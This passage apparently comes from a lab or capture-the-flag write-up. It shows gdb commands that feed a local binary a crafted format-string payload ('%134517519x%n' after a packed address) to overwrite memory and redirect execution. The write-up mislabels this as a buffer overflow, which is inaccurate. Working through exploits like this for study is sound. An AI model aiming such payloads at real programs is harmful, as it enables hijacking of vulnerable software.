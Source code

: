 <img src="./img/Screenshot 2024-10-13 122632.png"></img>
You may need to convert a specific hexadecimal value to its decimal equivalent using an online converter for later use.
```bash
run $(echo -e "\x2c\xd3\xff\xff")%134517519x%n
```
Execute the program with a crafted input, including a specific decimal value as part of the buffer overflow exploit, aiming to manipulate program execution.
```bash
x/wx 0x08049313
```
Examine the contents of the memory address `0x08049313`, which may hold critical data for the exploit.
```bash
run $(echo -e "\xf8\xd2\xff\xff")%134517519x%n
```